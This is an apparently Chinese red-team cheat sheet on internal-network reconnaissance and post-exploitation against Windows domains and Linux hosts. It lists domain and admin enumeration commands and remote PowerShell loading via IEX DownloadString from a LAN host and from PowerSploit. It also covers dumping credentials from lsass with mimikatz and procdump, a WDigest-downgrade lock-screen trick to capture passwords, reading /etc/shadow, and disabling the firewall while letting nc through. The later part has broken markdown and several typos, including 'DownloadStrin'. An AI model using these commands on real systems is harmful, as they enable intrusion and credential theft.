


# 1. 域内信息搜集

## 1.1 域内用户和管理员信息

[参考文档]()

1. 常用命令

- `net view /domain` 查看域名
- `net group "domain computers"` 查看域内所有机器
- `net user /domain` 查看域内所有用户
- `net group /domain` 查看域内所有组
- `net group "domain admins" /domain` 获取域管理员列表
- `net group "enterprise admins" /domain` 获取企业管理员列表
- `net localgroup administrators /domain` 获取域内置 administrators 组用户
- `net group "domain controller" /domain` 获取域控制器列表
- `net user someuser /domain` 获取指定域用户 someuser 的信息
- `net accounts /domain` 获取域密码策略设置, 密码长短, 错误锁定等信息
- `nltest /domain_trusts` 获取域信任信息

## 1.2 定位域管理员

### 1.2.1 psloggedon 查询

`Psloggedon.exe`是微软官方工具, 直接运行该程序即可获取当前机器有哪些用户登录过, 何时登录过.
需要管理员权限


### 1.2.2 netview 查询

[github 地址](https://github.com/mubix/netview), 用于枚举主机信息

```
netview.exe -d 从当前域中枚举主机
```

- `-f filename.txt`, 提取主机列表的文件

- `-e filename.txt`, 要排除的主机名文件

- `-o filename.txt`, 将结果输出到文件中

- `-d domain`, 指定要提取主机列表的域

- `-g group`, 指定要搜索的组名

- `-c`, 对已找到的共享目录/文件的访问权限进行检查.

### 1.2.3 PVEFindADUser

枚举出域用户以及登陆过特定系统的用户。但是，这个需要管理员权限。

## 1.3 查找域管进程

可以从域管进程中 dump 出域管 hash, 通过 mimikatz 可以进行 hash 传递

### 1.3.1 本地查找

通过查找本地管理员用户，结合任务管理名令查找该用户的进程，以确定域管进程。

```
net group "domain admins" /domain 查找域管用户
tasklist /v 搜索域管用户创建了哪些进程
```

### 1.3.2 远程查找

通过查找查询域控制器的活动域用户会话确定有管理进程, 这里要用到工具`NetSess.exe`

```
net group "domain controllers" /domain 查找域控制器
NetSess.exe <域控名称>
```

## 1.4 域内 DNS 记录获取

1. 使用`SharpAdidnsdump.exe`通过 ldap 获取 dns 记录

```
SharpAdidnsdump.exe domain.com
```

2. 使用`PowerView`
   [项目地址](https://raw.githubusercontent.com/shigophilo/tools/master/PowerView.ps1)

```
Get-DNSRecord -ZoneName domain.com
```

## 1.5 Powershell 收集域信息

1. 使用`PowerView.ps1`

- 加载模块

```
Get-ExecutionPolicy
Set-ExecutionPolicy RemoteSigned
powershell -exec bypass Import-Module .\powerview.ps1
```

- 使用模块

```
Get-NetDomain: 获取当用户所在域名
Get-NetUser: 返回所有用户详细信息
Get-NetDomainController: 获取所有域控制器
Get-NetComputer: 获取域内机器详细信息
Get-NetOU: 获取域中OU信息
Get-NetGroup: 获取域内组和组成员信息
Get-NetFileServer: 根据SPN获取当前域使用的文件服务器
Get-NetShare: 获取当前域所有网络共享
Get-NetRDPSession: 获取指定服务器存在的远程连接信息
Get-NetProcess: 获取远程主机的进程信息
Get-UserEvent: 获取指定用户日志信息
Get-NetGPO: 获取域所有组策略对象
Get-DomainPolicy: 获取域默认或域控制器策略
Invoke-UserHunter: 搜索网络中域管理员正在使用的主机
Invoke-ProcessHunter: 查找域内所有机器进程用于找到某特定用户
Get-NetSession: 获取在指定服务器存在Session信息
```

## 1.5 BLOODHOUND 自动化工具

[参考文档](https://www.freebuf.com/sectool/179002.html)

---

# 2. Linux 信息收集

## 2.1 获取系统信息

1. 获取操作系统基本信息

```
uname -a 打印所有可用信息
uname -r 内核版本信息
uname -n 系统主机名称
uname -m linux内核架构
hostname 主机名
cat /proc/version 内核信息
cat /etc/*-release 发布信息
cat /etc/issue  发布信息
cat /proc/cpuinfo cpu信息
df -a 文件信息

```

2.  获取系统环境信息

```
env  输出系统环境信息
set  打印系统环境信息
echo $PATH  输出环境变量
history  查看历史命令
pwd  查看当前工作目录
cat /etc/profile  查看系统全局配置文件
```

3. 系统服务信息

```
ps -aux 查看进程信息
top 当前进程
netstat -antpu  查看当前网络交互端口
```

4. 获取系统软件信息

- 列出安装的软件

```
dpkg -l  (debian ubuntu)
rmp -qa  (redhat centos)
```

- 常见程序的配置文件路径

```
/etc/apache2/apache2.conf
/usr/local/nginx/conf/nginx.conf
/usr/local/app/php5/lib/php.ini
/etc/my.cnf  mysql配置文件
/var/log  各种日志
```

5. 获取系统任务和作业

```
crontab    计划任务管理
/etc/crontab    计划任务配置文件
jobs -l    列出后台目录
ls /etc/cron*    列出计划任务
crontab -l -u <用户名>  不加-u默认列出当前用户的计划任务, -u列出指定用户的计划任务（需要root权限）
/etc/crontab文件中可能记录了用户自行添加的任务
```



## 2.2 获取系统组信息

```
cat/etc/passwd    查看系统所有用户
cat/etc/group    查看系统所有组
cat/etc/shadow    查看系统所有用户的hash（需要root权限）
finger    查看当前登陆用户当前登陆用户的基本信息（finger用户名）
users    查看当前登陆的用户
who -a    查看当前登陆的用户
w    查看当前登陆的用户有哪些人，以及它们执行的那些程序
last    显示登陆用户的信息
lastlog    显示系统中所有用户最近一次登陆的信息
```

## 2.3 获取用户和权限信息

```
whoami    查看当前用户
id    列出当前用户详细信息
cat/etc/sudoers    查看可以提升到root权限的用户
sudo -l    列出当前用户可执行和不可执行的命令
```

## 2.4 获取网络和路由信息

```
ifconfig -a    列出网络接口信息
cat /etc/network/interfaces    列出网络接口信息
arp -a    列出系统arp表
route    打印路由信息
cat /etc/resolv.conf    查看dns配置信息
netstat —an    打印本地开放信息
iptables -L    列出iptables配置规则
cat /etc/services    查看端口服务映射
cat /etc/hosts    host文件信息
```

## 2.5 获取其他信息

- 查找拥有 S 引 D 的文件
  `find / -perm -4000 -type f`
- 查找 root 权限的 S 引 D 文件
  `find / -uid 0 -perm -4000 -type f`
- 找出可写目录
  `find / -perm -w -type f`
- 查看当前用户的历史记录
  `cat ~/.bash_history`
- 查看用户 ssh 登录信息
  `ls ~/.ssh/`
- 查找备份压缩包文件

```
find / -name *.tar.gz
fing / -name *.ZIP
```

# 3. 自动化信息收集

## 3.1 HIGS.bat+psloglist.exe

- `HIGS.bat`: 自动搜集系统本地信息
- `psloglist.exe`: 拉取系统本地日志

## 3.2 PSRecon

[项目地址](https://github.com/gfoss/PSRecon)

使用方式:

- 本地加载

```
powershell -exec bypass -file psrecon.ps1
```

- 远程加载

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.135.100/1.ps1')"
```

## 3.3 MSF

当目标主机上线 MSF 是, 使用 meterpreter 进行信息自动收集:

- `run scraper`: 比较全面的系统信息,比如注册表,安装软件,网络环境等信息。
- `run winenum`: 收集一些当前系统,用户组相关的信息。

# 4. 密码提取

## 4.1 mimikatz

[项目地址](https://github.com/gentilkiwi/mimikatz)

- 从 lsass 中获取系统用户明文密码

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

- MSF 加载 mimikatz

```
load kiwi
creds_all
```

- procdump+mimikatz
  使用 procdump 将 lsass.exe 的内存 dump 下来, 再使用 mimikatz 从内存文件中读取密码.

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPass    words full" exit
```

## 4.2 mimipenguin

[项目地址](https://github.com/huntergregal/mimipenguin)

直接执行即可, 但是需要 root 权限

## 4.3 Invoke-MimikatzWdigestDowngrade

自 KB2871997 更新之后, 无法使用 mimikatz 获取明文密码, 这个时候可以使用[Invoke-MimikatzWdigestDowngrade](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1)钓鱼获取用户密码

- 执行 Invoke-MimikatzWdigestDowngrade，此时主机进入锁屏状态
- 当用户输入账号密码登录后，执行 Get-Job 抓取密文密码

# 内网信息搜集

## 搜集本机信息

## ·**查询网络配置**

## `ipconfig /all`

## ·**查询操作系统及软件信息**

## `systeminfo |findstr /B /C:"OS NAME" /C:"OS version`

## `systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"`

## ·**查询操作系统体系结构**

## `echo %PROCESSOR_ARCHITECTURE%`

## ·**查看安装的软件版本，路径**

## `wmic product get name,version`

## powershell 命令

## `powershell "Get-WmiObject -class Win32_Product |Select-Object -Property name,version"`

## ·**查询本机服务信息**

## `wmic service list brief`

## ·**查询进程列表**

## `tasklist /v`

## `wmic process list brief`

## ·**启动程序信息**

## `wmic startup get command,caption`

## ·**计划任务**

## `schtasks /query /fo LIST /v`

## ·**查看用户列表**

## `net user`

## `net localgroup administrators`

## `query user || qwinsta`

## ·**列出或断开本地计算机和连接的客户端的会话**

## `net session`

## ·**查询端口列表**

## `netstat –ano`

## ·**查询补丁**

## `systeminfo`

## `wmic qfe get Caption,Description,HotFixID,InstalledOn`

## ·**查询路由表以及 arp 缓存表**

## `route print `

## `Arp -a`

## ·**防火墙配置**

## 关闭防火墙

## `netsh firewall set opmode disable`

## 2003 版本后：

## `netsh advfirewall set allprofiles state off`

## `netsh firewall show config`

## ·**允许指定程序连入**

## `netsh advfirewall firewall add rule name="pass nc" dir=in action=allow program="C: \nc.exe"`

## `netsh advfirewall firewall add rule name="Allow nc" dir=out action=allow program="C: \nc.exe"`

## 允许 3389 放行

## `netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow`

## ·**代理配置信息**

## `reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"`

## ·**查询并开启远程连接**

## 查看 3389 端口是否开启

## `REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber`

## ·**在 2003 中开启 3389**

## `wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1`

## ·**在 2008 和 2012 中开启 3389**

```

	wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1

	wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1

	reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

##**查询当前权限**
`whoami`
--
`net user XXX /domain`
-- ##**判断是否有域**
--
执行如下命令，可以查看网关 IP 地址、DNS 的 IP 地址、本地地址是否和 DNS 服务器为同一
网段、域名等
`ipconfig /all`
--
然后，通过反向解析查询命令 nslookup 来解析域名的 IP 地址。使用解析出来的 IP 地址进行
对比，判断域控制器和 DNS 服务器是否在同一台服务器上


##**探测域内存活主机**

## ·**利用 ICMP 快速探测内网**

## `for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="`

·**利用 VBS 脚本**（2008 以下版本使用）

```

	strSubNet = "192.168.1."
	Set objFSO= CreateObject("Scripting.FileSystemObject")
	Set objTS = objfso.CreateTextFile("C:\Windows\Temp\Result.txt")
	For i = 1 To 254
	strComputer = strSubNet & i
	blnResult = Ping(strComputer)
	If blnResult = True Then
	objTS.WriteLine strComputer & " is alived ! :) "
	End If
	 Next
	objTS.Close
	WScript.Echo "All Ping Scan , All Done ! :) "
	Function Ping(strComputer)
	Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
	Set colItems = objWMIService.ExecQuery("Select * From Win32_PingStatus Where Address='" & strComputer & "'")
	For Each objItem In colItems
	Select case objItem.StatusCode
	Case 0
	Ping = True
	Case Else
	Ping = False
	End select
	Exit For
	Next
	End Function

```

```
	powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadStrin('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"

```

```

	powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"
```
